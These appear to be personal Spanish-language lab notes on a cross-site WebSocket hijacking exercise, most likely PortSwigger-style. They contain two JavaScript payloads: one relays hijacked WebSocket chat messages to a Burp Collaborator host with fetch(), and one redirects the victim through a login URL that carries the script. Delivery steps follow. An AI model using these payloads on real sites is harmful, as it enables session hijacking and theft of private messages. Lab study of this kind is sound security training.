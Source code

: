 ![[Pasted image 20230610071823.png]]

tomado de: https://youtu.be/7k4if4HBu5s

payloads:

#1
script:
	var ws = new WebSocket('wss://LAB-ID.net/chat');
	ws.onopen = function() {
		ws.send("READY");
	};
	ws.onmessage = function(event){
		fetch('https://BURP-COLLABORATOR-LAB.com', {method: 'POST', mode: 'no-cors', body: event.data});
	};
script

#2
script:
	document.location = "https://cms-LAB-ID.net/login?username=LOCAL-URL-ENCODED-CSWSH-SCRIPT&password=anything";
script


![[Pasted image 20230703202511.png]]

![[Pasted image 20230703202604.png]]

me voy al exploit server y empezamos a probar los payloads:

![[Pasted image 20230703202805.png]]

inicio el burp collaborator:

![[Pasted image 20230703202847.png]]

hn8pxbsrnz5393vhayw9t018qzwqkf.oastify.com

![[Pasted image 20230703203011.png]]

ojo en la forma en que pego los links, en la foto de arriba en el websocket el endpoint tiene 2 slashes y eso me impedia la ejecucion del payload, tambien el intercept debe estar en off

luego store y deliver to the victim, luego voy al collaborator e inicio el poll:


